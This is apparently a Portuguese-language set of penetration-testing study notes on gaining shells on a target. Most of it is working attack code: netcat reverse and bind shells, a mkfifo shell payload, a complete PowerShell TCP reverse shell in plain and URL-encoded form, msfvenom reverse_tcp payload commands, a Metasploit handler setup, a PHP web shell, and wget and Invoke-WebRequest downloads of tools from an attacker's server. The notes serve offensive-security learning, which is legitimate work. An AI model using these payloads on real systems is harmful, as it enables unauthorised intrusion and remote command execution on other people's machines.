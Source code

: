 ```yaml
---
tags:
  - WEB
  - Pentest
---
```

- **Reverse Shell** - Ocorrem quando o alvo é forçado a executar um código que se conecta novamente ao seu computador. Em seu próprio computador, você usaria uma das ferramentas mencionadas na tarefa anterior para configurar um ouvinte que seria usado para receber a conexão. Os shells reversos são uma boa maneira de contornar as regras de firewall que podem impedi-lo de se conectar a portas arbitrárias no alvo; 
```shell
#Máquina atacante:
	sudo nc -lvnp 443
#Alvo
	nc <LOCAL-IP> <PORT> -e /bin/bash
```
- **Bind shells** - São quando o código executado no alvo é usado para iniciar um listener anexado a um shell diretamente no alvo. Isso seria então aberto para a Internet, o que significa que você pode se conectar à porta que o código abriu e obter a execução remota do código dessa forma. 
```shell
#Alvo:
	nc -lvnp <port> -e "cmd.exe"
#Atacante:
	nc MACHINE_IP <port>
```

# Técnica 1: Python

A primeira técnica é aplicável somente a **computadores Linux**, pois eles quase sempre têm o Python instalado por padrão. Esse é um processo de três etapas:

1. Usar `python -c 'import pty;pty.spawn("/bin/bash")'`, que usa o Python para gerar um shell bash com recursos melhores;
 2. Exportar `TERM=xterm` - isso nos dará acesso a comandos `term`, como `clear`.
3. Colocar o shell em segundo plano usando `Ctrl + Z`. De volta ao nosso próprio terminal, usamos `stty raw -echo; fg`. 
	Isso faz duas coisas: primeiro, **desativa o eco do nosso próprio terminal** (o que nos dá acesso aos autocompletos de tabulação, às teclas de seta e ao Ctrl + C para eliminar processos). Em seguida, ele **coloca o shell em primeiro plano**, concluindo assim o processo.

![[Pasted image 20231216192542.png]]

#  Técnica 2: Socat
Uma maneira típica de conseguir isso seria usar um servidor da Web no computador atacante dentro do diretório que contém o binário socat:
```shell
sudo python3 -m http.server 80
``` 
E, em seguida, no computador de destino, usar o shell netcat para baixar o arquivo. No Linux, isso seria feito com curl ou wget:
```shell
wget <LOCAL-IP>/socat -O /tmp/socat
```

Para completar: em um ambiente Windows CLI, o mesmo pode ser feito com o Powershell, usando Invoke-WebRequest ou uma classe de sistema webrequest, dependendo da versão do Powershell instalada:
```powershell
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

# Payloads Comuns
```shell
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# Msfvenom
```shell
#windows
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
#linux
msfvenom -p linux/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.5,LPORT=443
```

#  Metasploit multi/handler 
1. Abra o Metasploit com o `msfconsole`
Digite use `multi/handler` e pressione Enter

    set PAYLOAD <payload>
    set LHOST <listen-address>
    set LPORT <listen-port>

Agora devemos estar prontos para iniciar o ouvinte!

Vamos fazer isso usando o comando `exploit -j`. Isso diz ao Metasploit para iniciar o módulo, executando-o como um trabalho em segundo plano.

# Web Shell
```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

![[Pasted image 20231217235530.png]]

Quando o alvo é o Windows, geralmente é mais fácil obter o RCE usando um shell da Web ou usando o msfvenom para gerar um shell reverso/vinculado no idioma do servidor. Com o primeiro método, a obtenção de RCE geralmente é feita com um shell reverso Powershell codificado por URL. Isso seria copiado no URL como o argumento cmd:

```shell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

